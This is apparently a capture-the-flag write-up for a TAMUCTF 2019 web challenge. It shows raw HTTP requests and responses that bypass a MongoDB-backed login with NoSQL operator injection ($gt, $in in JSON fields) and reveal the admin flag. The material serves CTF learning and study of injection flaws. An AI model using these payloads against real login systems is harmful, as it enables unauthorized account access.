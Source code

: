 ## TAMUCTF 2019 Web


https://docs.mongodb.com/manual/reference/operator/query/gt/


POST /login HTTP/1.1
Host: web4.tamuctf.com
Content-Length: 58
Accept: text/plain
Content-Type: application/json;charset=UTF-8
Referer: http://web4.tamuctf.com/admin
Connection: close

{"username":{"$gt":""},"password":{"$gt":""}}


HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Fri, 01 Mar 2019 19:42:35 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 15
Connection: close
X-Powered-By: Express
ETag: W/"f-19Ag+XhEyRc+UOhG3N8S4DGKLw4"

"Welcome: bob!"



https://docs.mongodb.com/manual/reference/operator/query/in/#op._S_in



POST /login HTTP/1.1
Host: web4.tamuctf.com
Content-Length: 58
Accept: text/plain
Content-Type: application/json;charset=UTF-8
Referer: http://web4.tamuctf.com/admin
Connection: close

{"username":{"$in":["tamuctf", "flag", "admin", "root", "administrator"]},"password":{"$gt":""}}

HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Fri, 01 Mar 2019 19:43:08 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 62
Connection: close
X-Powered-By: Express
ETag: W/"3e-PIL9X7plTu9Obxi0Yd4AQFTvkcU"

"Welcome: admin!\ngigem{n0_sql?_n0_pr0bl3m_8a8651c31f16f5dea}"

